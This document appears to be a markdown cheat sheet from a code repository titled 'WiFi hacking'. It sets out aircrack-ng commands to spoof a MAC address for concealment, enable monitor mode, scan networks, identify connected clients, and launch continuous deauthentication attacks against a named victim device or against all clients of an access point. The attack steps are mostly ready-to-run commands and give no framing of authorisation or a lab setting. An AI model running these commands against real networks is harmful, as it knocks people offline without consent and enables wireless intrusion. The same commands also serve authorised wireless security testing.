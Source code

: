 # WiFi hacking


## Change Mac address for cloacking

```bash

sudo ip link set dev $interface down

sudo macchanger --mac=aa:bb:cc:dd:ee:ff $interface

sudo ip link set dev $interface up

```

## Install Aircrack-ng
Ensure that Aircrack-ng is installed on your system. It's available for various Linux distributions and can be installed via package managers like apt, yum, or brew.

## Put Wireless Interface in Monitor Mode

1. check for available interfaces

`airmon-ng check`

2. kill interfering processes

`airmon-ng check kill`

3. If interface is on `wlan0`, set it to monitoring mode

`airmon-ng start wlan0`

On success you get something like 

```
PHY	Interface	Driver		Chipset

phy0	wlan0		88XXau		Realtek Semiconductor Corp. RTL8812AU 802.11a/b/g/n/ac 2T2R DB WLAN Adapter
		(monitor mode enabled)

```

## Start Scanning for Networks


```bash

sudo airodump-ng --band abg $interface


#You can combine these to monitor multiple bands. For example:

#--band abg: Monitor all 2.4 GHz and 5 GHz networks.
#--band bg: Monitor only 2.4 GHz networks (both 802.11b and 802.11g).
#--band a: Monitor only 5 GHz networks.


```




This will display a list of all available Wi-Fi networks, along with various details about them:

```text
BSSID: The MAC address of the access point.
PWR: Signal level reported by the card.
Beacons: Number of announcements packets sent by the AP.
#Data: Number of captured data packets (includes data and QoS data).
CH: Channel on which the AP is operating.
ENC: Encryption algorithm used (WEP, WPA, WPA2, etc.).
ESSID: The name of the Wi-Fi network.
```

## Identify connected clients

```bash

sudo airodump-ng --bssid $AP_mac  -c $channel $interface

```

## Start de-auth attack

Start by monitoring specific BSSID and channel

```bash


sudo airodump-ng --bssid $AP_mac  -c $channel $interface

```

### Deauth specific client

```bash

sudo aireplay-ng -0 0 -a $AP_mac -c $victim_mac $interface


# where -0 0 is continuous deauth mode

```

### Deauth all

`sudo aireplay-ng -0 0 -a $AP_mac  $interface`
